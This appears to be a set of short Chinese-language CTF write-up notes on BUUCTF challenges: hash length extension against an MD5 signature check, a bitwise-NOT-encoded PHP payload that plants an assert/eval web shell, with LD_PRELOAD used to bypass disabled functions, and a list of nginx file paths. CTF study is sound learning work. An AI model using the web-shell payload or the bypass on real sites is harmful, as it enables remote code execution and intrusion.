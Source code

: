 思路:

在/De1ta中传入param=flag.txt,再想办法让action同时包括read和scan

难点在于验证签名

```
    def checkSign(self):
        if (getSign(self.action, self.param) == self.sign):
            return True
        else:
            return False

```

```
def getSign(action, param):
    return hashlib.md5(secert_key + param + action).hexdigest()

```

首先访问下`/geneSign`路由，传参`param=flag.txt`，拿到这个签名

接下来利用哈希拓展脚本--`hash_ext_attack.py`来预测签名



# buuctf rce me

url编码取反绕过

期望命令:

`assert(eval($_POSt[shell]))`

分别生成assert和`eval($_POST[shell])`后拼接

`?code=(~%9E%8C%8C%9A%8D%8B)(~%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%8C%97%9A%93%93%A2%D6);`

post上传shell=phpinfo();看能不能执行命令

发现禁用了很多函数,利用LD_PRELOAD原理绕过

直接只用antsword的插件即可

最后运行的命令/readflag得到flag



# buuctf pythonginx

- 配置文件存放目录：/etc/nginx
- 主配置文件：/etc/nginx/conf/nginx.conf
- 管理脚本：/usr/lib64/systemd/system/nginx.service
- 模块：/usr/lisb64/nginx/modules
- 应用程序：/usr/sbin/nginx
- 程序默认存放位置：/usr/share/nginx/html
- 日志默认存放位置：/var/log/nginx
- 配置文件目录为：/usr/local/nginx/conf/nginx.conf
